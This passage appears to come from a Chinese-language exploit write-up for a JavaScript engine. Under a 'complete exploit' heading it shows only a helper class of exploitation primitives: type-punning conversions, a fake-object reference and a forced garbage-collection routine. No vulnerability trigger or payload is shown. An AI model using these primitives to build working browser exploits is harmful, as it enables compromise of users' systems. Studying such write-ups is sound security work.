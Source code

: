 ### 完整利用

最后整体利用代码如下：

```javascript
class Helpers {
  constructor() {
    this.buf = new ArrayBuffer(8);
    this.f64 = new Float64Array(this.buf);
    this.f32 = new Float32Array(this.buf);
    this.u32 = new Uint32Array(this.buf);
    this.u64 = new BigUint64Array(this.buf);
    this.state = {};
  }

  ftoil(f) {
    this.f64[0] = f;
    return this.u32[0];
  }

  ftoih(f) {
    this.f64[0] = f;
    return this.u32[1];
  }

  itof(i) {
    this.u32[0] = i;
    return this.f32[0];
  }

  f64toi64(f) {
    this.f64[0] = f;
    return this.u64[0];
  }

  i64tof64(i) {
    this.u64[0] = i;
    return this.f64[0];
  }

  clean() {
    this.state.fake_object.fill(0);
  }

  hex(x) {
    return x.toString(16).padStart(16, "0");
  }

  printhex(val) {
    console.log("0x" + val.toString(16));
  }

  add_ref(object) {
    this.state[this.i++] = object;
  }

  gc() {
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
  }
}
```
